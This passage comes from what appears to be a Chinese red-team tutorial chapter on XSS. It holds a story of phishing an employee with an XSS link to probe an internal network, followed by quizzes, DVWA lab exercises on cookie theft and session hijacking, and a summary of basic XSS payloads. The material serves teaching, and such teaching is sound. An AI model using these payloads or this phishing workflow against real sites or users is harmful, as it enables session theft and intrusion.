发给了一个他在信息收集阶段找到的员工邮箱。

那个员工还真点了。

几分钟后，
XSS平台返回了扫描结果：
内网有好几台机器开着80、443、3389端口，
还有一个 Jenkins 管理界面，
是未授权访问的！

小张通过XSS打进去的这个"跳板"，
成功探测到了内网的信息，
为后续的内网渗透打下了基础。

> 送给新手的话：
> **不要小看任何一个漏洞。
> 哪怕只是一个看似不起眼的XSS，
> 用好了也能发挥巨大的作用。
>
> 漏洞的价值，
> 不取决于漏洞本身，
> 而取决于使用它的人。
>
> 思路很重要，
> 多思考，
> 你就能把小漏洞玩出大花样。**

---

## ✏️ 课后习题

### 选择题

1. XSS的中文全称是？
   - A. 跨站脚本攻击
   - B. 跨站请求伪造
   - C. 结构化查询语言注入
   - D. 服务器端请求伪造

2. XSS注入的代码一般是？
   - A. SQL语句
   - B. JavaScript脚本
   - C. Python脚本
   - D. Java代码

3. XSS的三种类型不包括？
   - A. 反射型
   - B. 存储型
   - C. DOM型
   - D. 主动型

4. 哪种XSS的危害最大？
   - A. 反射型
   - B. 存储型
   - C. DOM型
   - D. 都一样

5. 存储型XSS的特点是？
   - A. 恶意代码在URL里
   - B. 恶意代码存在数据库里
   - C. 纯前端JavaScript的问题
   - D. 需要用户点击链接

6. DOM型XSS发生在哪里？
   - A. 服务器端
   - B. 数据库
   - C. 浏览器端
   - D. 网络传输中

7. 以下哪个标签不能执行JavaScript？
   - A. `<script>`
   - B. ``
   - C. `<svg>`
   - D. `<p>`

8. 以下哪个事件属性可以在图片加载失败时触发？
   - A. `onload`
   - B. `onerror`
   - C. `onclick`
   - D. `onmouseover`

9. XSS最常见的利用方式是？
   - A. 窃取Cookie
   - B. 篡改网页
   - C. 内网探测
   - D. 键盘记录

10. 以下哪个不是XSS平台的功能？
    - A. 偷Cookie
    - B. 键盘记录
    - C. 自动SQL注入
    - D. 页面截图

### 填空题

1. XSS的英文全称是______，中文全称是______。

2. XSS的三种类型是：______、______、______。

3. 存储型XSS把恶意代码存在______里。

4. DOM型XSS完全发生在______端，不经过服务器。

5. XSS注入的脚本语言主要是______。

6. XSS窃取Cookie常用的对象是______。

7. img标签的______事件可以在图片加载失败时触发。

8. 获取当前页面Cookie的JavaScript代码是______。

9. 页面跳转的JavaScript代码是______。

10. XSS平台的作用是______。

### 简答题

1. 用自己的话说说，什么是XSS？

2. XSS和SQL注入有什么区别？

3. XSS有哪三种类型？各有什么特点？

4. 为什么存储型XSS的危害最大？

5. XSS能做什么？（至少说5种）

6. 什么是DOM型XSS？和其他两种有什么不同？

7. XSS为什么能偷Cookie？原理是什么？

8. 不用<script>标签，有哪些方法可以执行JavaScript？

9. 什么是XSS平台？有什么用？

10. 反射型XSS为什么需要诱骗用户点击？

### 实操题

1. **反射型XSS练习：**
   - 打开DVWA，XSS (Reflected)模块，难度Low
   - 试试用<script>标签弹窗
   - 试试弹Cookie
   - 试试其他的Payload（img、svg、a标签等）
   - 记录下成功的Payload

2. **存储型XSS练习：**
   - 打开DVWA，XSS (Stored)模块，难度Low
   - 试试留言里插XSS
   - 看看刷新页面还会不会弹
   - 体验一下存储型和反射型的区别
   - 试试偷Cookie（可以配合XSS平台或者自己写个简单的接收页面）

3. **DOM型XSS练习：**
   - 打开DVWA，XSS (DOM)模块，难度Low
   - 试试能不能触发XSS
   - 观察一下URL的变化
   - 理解DOM型XSS的原理

4. **XSS平台练习：**
   - 自己搭建一个XSS平台（或者找个公开的学习用的）
   - 创建一个项目
   - 用生成的Payload在DVWA上测试
   - 看看能不能收到Cookie
   - 了解XSS平台的各种功能

5. **偷Cookie实验：**
   - 在DVWA的存储型XSS里插一个偷Cookie的Payload
   - 用另一个浏览器（或者无痕模式）访问这个页面
   - 看看能不能收到Cookie
   - 试试用收到的Cookie能不能登录
   - 理解XSS劫持会话的原理

---

## 📝 本章小结

这一章，
我们学习了XSS的基础知识。

总结一下重点：

1. **什么是XSS**
   - 跨站脚本攻击
   - 注入JavaScript代码，在用户浏览器执行
   - 原理：用户输入未过滤，直接输出到页面

2. **XSS的三种类型**
   - 反射型：URL里，点击触发，一次性
   - 存储型：数据库里，访问就触发，危害最大
   - DOM型：纯前端，不经过服务器，比较隐蔽

3. **HTML和JS基础**
   - HTML标签和属性
   - 常见的危险标签和事件属性
   - JavaScript基础语法
   - 不用script标签也能执行JS

4. **常见XSS Payload**
   - 基础弹窗：<script>alert(1)</script>
   - 事件类：、<svg onload=...>
   - 伪协议：javascript:alert(1)
   - 偷Cookie：new Image().src = ...
   - 各种变形写法

5. **XSS的危害**
   - 窃取Cookie、劫持会话
   - 钓鱼攻击
   - 网页篡改
   - 键盘记录
   - 内网探测
   - 刷广告、刷流量
   - ...

6. **XSS平台**
   - 什么是XSS平台
   - 功能介绍
   - 常见的平台
   - 使用流程

> 最后送你一句话：
> **"XSS入门简单，精通难。
> 弹个框只是第一步，
> 真正的高手，
> 能把XSS玩出花来。
>
> 不要小瞧任何一个漏洞，
> 只要你思路够开阔，
> 小漏洞也能发挥大作用。"**

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day021-basic-SQL注入模块总结)
- [➡️ 下一章：---](/redteam/day023-basic-XSS进阶)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
